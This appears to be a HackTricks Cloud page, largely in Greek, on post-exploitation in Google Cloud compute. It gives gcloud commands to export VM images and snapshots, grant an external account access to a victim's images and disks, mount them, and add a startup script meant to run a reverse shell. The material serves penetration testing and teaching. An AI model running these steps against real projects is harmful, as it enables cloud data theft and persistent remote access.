 # GCP - Compute Post Exploitation

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (Networking) ελέγξτε:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Εξαγωγή & Επιθεώρηση Εικόνων τοπικά

Αυτό θα επέτρεπε σε έναν επιτιθέμενο να **πρόσβαση στα δεδομένα που περιέχονται μέσα σε ήδη υπάρχουσες εικόνες** ή **δημιουργία νέων εικόνων από τρέχουσες VMs** και πρόσβαση στα δεδομένα τους χωρίς να έχει πρόσβαση στην τρέχουσα VM.

Είναι δυνατό να εξάγετε μια εικόνα VM σε έναν κάδο και στη συνέχεια να την κατεβάσετε και να την προσαρτήσετε τοπικά με την εντολή:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Για να εκτελέσει αυτή τη δράση ο επιτιθέμενος μπορεί να χρειαστεί προνόμια πάνω στον storage bucket και σίγουρα **προνόμια πάνω στο cloudbuild** καθώς είναι η **υπηρεσία** που θα ζητηθεί να εκτελέσει την εξαγωγή\
Επιπλέον, για να λειτουργήσει αυτό, το codebuild SA και το compute SA χρειάζονται προνομιούχες άδειες.\
Το cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` χρειάζεται:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Και το SA `<project-id>-compute@developer.gserviceaccount.com` χρειάζεται:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Εξαγωγή & Επιθεώρηση Snapshots & Disks τοπικά

Δεν είναι δυνατόν να εξάγουμε απευθείας snapshots και disks, αλλά είναι δυνατόν να **μετατρέψουμε ένα snapshot σε disk, ένα disk σε image** και ακολουθώντας την **προηγούμενη ενότητα**, να εξάγουμε αυτό το image για να το επιθεωρήσουμε τοπικά

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Επιθεώρηση μιας Εικόνας δημιουργώντας ένα VM

Με στόχο την πρόσβαση στα **δεδομένα που αποθηκεύονται σε μια εικόνα** ή μέσα σε ένα **τρέχον VM** από όπου ένας επιτιθέμενος **έχει δημιουργήσει μια εικόνα,** είναι δυνατό να παραχωρηθεί πρόσβαση σε έναν εξωτερικό λογαριασμό πάνω στην εικόνα:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
και στη συνέχεια δημιουργήστε ένα νέο VM από αυτό:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Αν δεν μπορούσατε να δώσετε πρόσβαση στον εξωτερικό σας λογαριασμό μέσω εικόνας, θα μπορούσατε να εκκινήσετε ένα VM χρησιμοποιώντας αυτήν την εικόνα στο έργο του θύματος και **να κάνετε τα metadata να εκτελέσουν ένα reverse shell** για να αποκτήσετε πρόσβαση στην εικόνα προσθέτοντας την παράμετρο:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Με στόχο την πρόσβαση στα **δεδομένα που είναι αποθηκευμένα σε έναν δίσκο ή ένα snapshot, θα μπορούσατε να μετατρέψετε το snapshot σε δίσκο, έναν δίσκο σε εικόνα και να ακολουθήσετε τα προηγούμενα βήματα.**

Ή θα μπορούσατε **να παραχωρήσετε πρόσβαση σε έναν εξωτερικό λογαριασμό** πάνω στον δίσκο (αν το σημείο εκκίνησης είναι ένα snapshot, δώστε πρόσβαση πάνω στο snapshot ή δημιουργήστε έναν δίσκο από αυτό):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Σύνδεση του δίσκου** σε μια παρουσία:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH into the VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3. **Format and Mount the Disk** (if it's a new or raw disk):
*   Create a mount point:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount the disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Αν **δεν μπορείτε να δώσετε πρόσβαση σε εξωτερικό project** στο snapshot ή στο δίσκο, ίσως χρειαστεί να **εκτελέσετε αυτές τις ενέργειες μέσα σε μια instance στο ίδιο project με το snapshot/δίσκο**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
